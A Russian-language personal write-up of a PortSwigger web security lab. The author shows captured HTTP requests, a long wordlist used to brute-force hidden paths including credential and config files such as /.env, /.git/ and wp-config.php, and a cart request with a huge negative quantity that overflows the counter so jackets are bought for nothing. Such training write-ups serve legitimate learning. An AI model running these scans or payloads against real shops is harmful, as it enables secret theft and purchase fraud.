


лаба https://portswigger.net/web-security/api-testing/lab-exploiting-unused-api-endpoint
###### Поиск и использование неиспользуемой конечной точки API
задача : найти скрытый апи - и купить кожанку в магазине

---

вот есть запрос - он просто высвечивает сообщение об остатке товаров на складе
```http
GET /api/products/1/price HTTP/2
Host: 0a00000503f18fc680c3214200280006.web-security-academy.net
Cookie: session=2wmSRzk3noA5yk4EvuuPD95RqKEhZNfQ
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Sec-Ch-Ua-Mobile: ?0
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a00000503f18fc680c3214200280006.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate, br
Priority: u=1, i


```
ответ 200
```json
{"price":"$1337.00","message":"Buy quick, we are low on stock! 3 purchased in the last 12 minutes!"}
```


--------

короче, запускаю турррррбо интрудер GET %s HTTP/2
так как нет блокировки по числу запросов
```c
/api  
/api/  
/v1  
/v2  
/graphql  
/swagger  
/api-docs  
/openapi.json

/swagger/index.html  
/swagger/ui  
/swagger-ui.html  
/swagger.json  
/swagger.yaml  
/api-docs/swagger.json  
/api-docs/swagger.yaml  
/docs  
/documentation  
/api/documentation  
/api/swagger  
/api/swagger-ui  
/api/swagger.json  
/api/swagger.yaml  
/openapi.yaml  
/api/openapi.json  
/api/openapi.yaml  
/v1/swagger.json  
/v2/swagger.json  
/v3/swagger.json

/admin
/graphql  
/graphiql  
/graphql/console  
/v1/graphql  
/v2/graphql  
/api/graphql  
/query  
/graphql/query

/api/v1  
/api/v2  
/api/v3  
/api/v4  
/api/v5  
/rest  
/rest/v1  
/rest/v2  
/api/rest  
/service  
/services  
/service/v1  
/services/v2

/admin/api  
/internal/api  
/private/api  
/partner/api  
/partner/v1  
/third-party/api  
/thirdparty/v1  
/backend/api  
/api/admin  
/api/internal  
/api/private

/api/1  
/api/2  
/api/3  
/api/latest  
/api/stable  
/api/beta  
/api/alpha  
/api/dev  
/api/test  
/api/staging

/api/json  
/api/xml  
/api/yaml  
/api/rest/json  
/api/rest/xml  
/api/data  
/api/endpoint  
/api/service  
/api/services  
/api/function  
/api/functions  
/api/method  
/api/methods  
/api/action  
/api/actions

/api/doc  
/api/docs  
/api/documentation  
/api/guide  
/api/reference  
/api/manual  
/api/help  
/api/index.html  
/api/readme  
/api/README

моб

/api/mobile  
/api/app  
/mobile/api  
/app/api  
/api/v1/mobile  
/api/android  
/api/ios  
/client-api  
/mobile-client

вот тут тоже может че-то будет

/robots.txt  
/sitemap.xml  
/.git/  
/backup/  
/phpinfo.php  
/cgi-bin/phpinfo.php  
/debug/  
index.php~  
index.php.bak  
index.php.swp  
index.php.save  
index.php.old  
index.php.orig  
config.php~  
config.php.bak  
.env~  
.env.bak  
.gitignore  
/debug  
/test  
/tests  
/dev  
/develop  
/development  
/stage  
/staging  
/admin/debug  
/api/debug  
/console/  
/web-console/  
/admin/  
/backup/  
/backups/  
/temp/  
/tmp/  
/logs/  
/log/  
/private/  
/hidden/  
/secret/  
/internal/  
/restricted/  
/secure/  
/protected/  
/uploads/  
/files/  
/downloads/  
/docs/  
/documentation/  
/api/docs/  
/swagger/  
/swagger-ui/  
/graphql/console/  
/.env  
/.htaccess  
/.htpasswd  
/WEB-INF/  
/WEB-INF/web.xml  
/META-INF/  
/META-INF/context.xml  
/server-status  
/server-info  
/config.php  
/config.xml  
/config.json  
/configuration.php  
/settings.php  
/wp-config.php  
/app.config  
/application.properties  
/application.yml  
/database.yml  
/error_log  
/error.log  
/access_log  
/access.log  
/debug.log  
/application.log  
/server.log  
/catalina.out
```

после сканирования - результатов интересных нет

------

тыкаю все что есть на сайте 
пока что получилось только купить минус 85 курток ))
даже чек получил о покупке 👍

-2135789928




--------

я короче - накрутил счетчик и купил за 0 баксов вот столько курток  1 183 883 032 короче ярд курток
короче норм так покупочка

хз как-нужно было решать эту лабу - но я сразу наткнулся на то что тут счетчик в минус уходил




ну и уходя в минус - я видимо переполнил инт и вуаля байты пошли переполняться и число как бы перевернулось )

использовал запрос который добавляет в корзину товары

```http
POST /cart HTTP/2
Host: 0a00000503f18fc680c3214200280006.web-security-academy.net
Cookie: session=2wmSRzk3noA5yk4EvuuPD95RqKEhZNfQ
Content-Length: 46
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Origin: https://0a00000503f18fc680c3214200280006.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a00000503f18fc680c3214200280006.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

productId=1&redir=PRODUCT&quantity=-1000000000
```


-------

вывод - 

тут так много багов и недоработок, что можно сказать одно - в реальности такое не найти, (наверно).
ну а вообще, при первом же тестировании апи - видно сразу - что можно покупать отрицательное число товаров

товары не проверяются наличием на складе

счетчик товаров в корзине в минус уходит 
